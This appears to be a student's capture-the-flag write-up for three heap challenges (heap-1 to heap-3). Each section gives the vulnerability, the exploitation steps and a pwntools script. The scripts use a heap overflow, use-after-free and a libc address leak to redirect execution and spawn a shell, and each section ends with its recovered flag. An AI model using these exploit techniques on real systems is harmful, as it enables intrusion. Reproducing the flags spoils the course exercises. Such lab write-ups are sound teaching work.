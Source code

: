 heap-1
===========================

General overview of problems faced
-------------------------------------
had to find where heap overflow was happening and then find how to exploit it

List of vulnerabilities
--------------------
1. heap overflow
2. unobfusticated system call
Steps to exploit
------------------
1. objdump to find memory address of main, and system call
2. determine code flow by using ida
3. find vulnerable part of code and determine overflow behaviour
4. craft payload in pwn template
5. inject payload and get shell

Script/Command used
------------------
```'''
pwn template
io = start()
print io.recvuntil("5. exit")
io.sendline("1")
print io.recvuntil("10)")
io.sendline("0")
print io.recvline()
io.sendline("1")
print io.recvline()
io.sendline("1")
print io.recvline()
payload = "\x90"*102 + p32(0x0804868f)
io.sendline(payload)
print io.recvuntil("5. exit")
io.sendline("3")
print io.recvuntil("10)")
io.sendline("0")
io.sendline("ls")
io.sendline("cat flag")
io.interactive()
```


`6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}`

heap-2
===========================

General overview of problems faced
-------------------------------------
since the delete was behaving differerntly from heap 1 it appeared to be a use-after-free
problem but the program was running signifcantly different in gdb and LOCAL.

List of vulnerabilities
--------------------
1. use-after-free
2. unobfusticated system call

Steps to exploit
------------------
1. objdump to find memory address of main, and system call
2. determine code flow by using ida
3. find vulnerable part of code and determine overflow behaviour using pwn tools gdb attach
4. craft payload in pwn template
5. inject payload and get shell

Script/Command used
------------------
```'''
pwn template
io = start()
#core = io.corefile
print io.recvuntil("exit")
io.sendline("1")    #add fish
print io.recvline()
io.sendline("0")    #create fish 0
print io.recvline()
io.sendline("0")
print io.recvline()
io.sendline("0")
print io.recvline()
payload1 = "b"*50
io.sendline(payload1) #garbage name
print io.recvuntil("exit")
io.sendline("4")    #select to delete fish 0
print io.recvline()
io.sendline("0")    #delete fish 0
print io.recvuntil("exit")
io.sendline("1") #select menu option
print io.recvline()
print io.recvline()
io.sendline("1") #add fish 1
print io.recvline()
io.sendline("1") #add size
print io.recvline()
io.sendline("1") #add weight
print io.recvline()
payload2 = "a"*38+p32(0x080486c0)+"b"*8
#payload2 = "a"*50
io.sendline(payload2)
print io.recvuntil("exit")
io.sendline("3")
print io.recvline()
io.sendline("0")
print io.recvline()
io.sendline('ls')
sleep(1)
io.sendline('cat flag')
io.interactive()
```

`6447{b20e6d03-f58c-43b7-974a-f801bb9a2fb5}`

heap-3
===========================

General overview of problems faced
-------------------------------------
the heap kept shifting

List of vulnerabilities
--------------------
1. use-after-free
2. memory leak
3. access to libc static object

Steps to exploit
------------------
1. objdump to find memory address of main, and system call
2. determine code flow by using ida
3. find vulnerable part of code and determine overflow behaviour using pwn tools gdb attach
4. craft payload in pwn template using memory leak from binary and offset from libc file
5. inject payload and get shell

Script/Command used
------------------
```'''
pwn template
io = start()
print io.recvuntil("exit")
io.sendline("1")    #add fish
print io.recvline()
io.sendline("0")    #create fish 0
print io.recvline()
io.sendline("2147483647")
print io.recvline()
io.sendline("2147483647")
print io.recvline()
payload1 = "a"*16
io.send(payload1) #garbage name

print io.recvuntil("exit")
io.sendline("4")    #select to delete fish 0
print io.recvline()
io.sendline("0")    #delete fish 0
print io.recvuntil("exit")
io.sendline("1") #select menu option
print io.recvline()
print io.recvline()
io.sendline("1") #add fish 1
print io.recvline()
io.sendline("2147483647") #add size
print io.recvline()
io.sendline("2147483647") #add weight
print io.recvline()
#payload2 = "aa"+p32(0xf7e7d0d0)*8+p32(0x080486c0)+"12345678"
#payload2 = "a"*38+p32(0x080486c0)+"b"*8
payload2 = ""

#payload2 = "aaaabbbb"+p32(0xf7dfd200)+p32(0xffffdc8a)
io.sendline(payload2)
print io.recvuntil("exit")
io.sendline("3")
print io.recvline()
io.sendline("1")
io.recvline()
io.recvline()
#d1 04 08 ff ff ff 7f 70 65 e2 f7 70 d1 04 08 20
raw_output = io.recvline()
#print raw_output
address = ''.join(x.encode('hex') for x in raw_output[7:11][::-1])
#print address
address = int(address,16)
print address
fputs = 0x05ed60
bin_sh = 0x15f60f
system = 0x03b020
print fputs
print bin_sh
print system
#difference = fputs - system;
#print "diff: ",difference
print io.recvuntil("exit")
io.sendline("4")    #select to delete fish 0
print io.recvline()
io.sendline("1")    #delete fish 1
print io.recvuntil("exit")
io.sendline("1") #select menu option
print io.recvline()
print io.recvline()
io.sendline("2") #add fish 2
print io.recvline()
io.sendline("2147483647") #add size
print io.recvline()
io.sendline("2147483647") #add weight
print io.recvline()
payload3 = 'a'*8+p32(address - fputs + system) + p32(address - fputs + bin_sh)
io.sendline(payload3)

```

`6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}`

